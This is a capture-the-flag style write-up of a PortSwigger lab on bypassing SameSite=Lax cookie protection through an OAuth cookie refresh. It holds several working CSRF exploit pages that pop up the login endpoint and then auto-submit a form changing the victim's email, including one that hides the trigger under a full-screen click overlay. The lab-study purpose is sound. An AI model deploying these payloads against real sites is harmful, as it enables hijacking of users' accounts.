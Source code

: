 # PortSwigger: [`SameSite=Lax` Bypass via Cookie Refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

`SameSite` cookies default to `Lax` unless explicitly set otherwise. However, because this can break SSO authentication flows, it isn't enforced for "top-level" POST requests for the first 120 seconds of the cookie's existence. "Top-level" here means anything that changes the URL in the location bar.

The lab target has an OAuth authentication flow that results in this cookie:

```text
Set-Cookie: session=ewNzZ8DFy40MB8IuCRmqO2koYyOiAPqY; Expires=Thu, 05 Jun 2025 17:42:20 UTC; Secure; HttpOnly
```

Because `SameSite` isn't specified it defaults to `SameSite=Lax`, but that isn't enforced for the first 120 seconds. If I can find a way to force a victim to refresh that cookie, I have a short window to deliver a second URL as the payload.

The following endpoint on this target redirects to the OAuth endpoint, refreshing the cookie:

```text
https://LAB_ID.web-security-academy.net/social-login
```

So, this target requires a two-stage exploit. First, the victim must be coerced into visiting `/social-login`, and after that request completes, a second POST request can be made to the `/my-account/change-email` endpoint, completing the exploit. A successful exploit could do this by providing a link for the user to click, thus allowing a pop-up window to refresh the cookie, and after a sufficient timeout the final payload (a form submit) is triggered.

Here is my original exploit, which works for the test user (`wiener`) but does _not_ work when delivered to the victim-bot:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  function r() {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#" onclick="r(); return false;">clickme</a>
```

Here is the functional PortSwigger suggested solution:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://LAB_ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

If the victim-bot arbitrarily clicks links then those two should be functionally equivalent, so I spent a while trying to figure out why my initial version wasn't working. I adjusted my exploit to use `window.onclick()` and it worked:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  window.onclick = () => {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#">clickme</a>
```

Why? So, while everything works fine for a human victim who clicks the link, maybe the way the victim-bot synthetically clicks links doesn't satisfy Chrome's definition for a "trusted user interaction", and so the pop-up would be blocked and the cookie wouldn't refresh? The switch from element-level to page-level handling might make a difference.

Often the victim-bot will just click links sent to it, but the hint for this lab needs to be taken very literally:

![](_/psa-samesite-lax-bypass-via-cookie-refresh-20250604-1.png)

The victim-bot in this lab seems clicks somewhere in the viewport. It doesn't click the link provided via the exploit.

Just for fun, I rewrote the original exploit to use a big image that fills the viewport, otherwise keeping things the same:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  …same as original exploit…
</script>

<a href="#" onclick="r(); return false;"
   style="position:fixed;top:0;left:0;width:100vw;height:100vh;
          background:url('https://labs.web-security-academy.net/files/avatar.png') center/cover no-repeat;
          display:block;border:0;"> </a>
```

That works just fine, although the `window.onclick` approach is cleaner given the bot's behavior.
